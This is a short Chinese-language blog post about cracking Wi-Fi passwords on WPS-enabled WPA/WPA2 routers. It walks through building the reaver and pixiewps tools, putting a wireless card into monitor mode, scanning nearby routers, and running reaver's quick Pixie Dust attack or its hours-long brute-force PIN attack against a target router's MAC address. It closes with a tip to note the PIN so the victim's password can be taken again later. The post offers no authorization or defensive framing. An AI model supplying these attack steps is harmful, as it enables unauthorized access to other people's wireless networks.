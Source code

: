 ```yaml
---
layout: default
title:  "reaver破解Wi-Fi密码"
date:   2016-12-31 17:35
categories: jekyll update
tags: [网络,Linux]
---
```

[reaver最新版主页](https://github.com/t6x/reaver-wps-fork-t6x)  
[pixiewps主页](https://github.com/wiire/pixiewps)  
[mdk3攻击路由器](https://lexuge.github.io/jekyll/update/2016/08/28/%E4%BD%BF%E7%94%A8mdk3+aircrack-ng%E6%94%BB%E5%87%BB%E8%B7%AF%E7%94%B1%E5%99%A8.html)  
借助最新的工具reaver可以破解WPA/WPA2（带有WPS）的路由器  
1. 编译reaver  
```
git clone https://github.com/t6x/reaver-wps-fork-t6x
cd reaver-wps-fork-t6x*/
cd src/
./configure
make
sudo make install
```

2. 编译pixiewps  
```
git clone https://github.com/wiire/pixiewps
cd pixiewps*/
cd src/
make
sudo make install
```
3. 使用reaver  
使用```reaver -h```可显示帮助  
- 使网卡变为监听模式:```sudo airmon-ng start wlp2s0```(具体步骤见mdk3攻击路由器的前几步)  
- 搜索附近路由:```sudo airodump-ng wlp2s0mon```  
接下来就可以使用reaver了  
若要在几秒钟内瞬间得到密码(不保证适应全部路由):```reaver -i wlp2s0mon -b (MAC) -vvv -K 1```  
若要100%得到密码(几个小时以上):```reaver -i wlp2s0mon -b (MAC)```  
Tip:得到密码后一定要记下PIN，这样下次就可以直接获得密码(对方不更改PIN)  
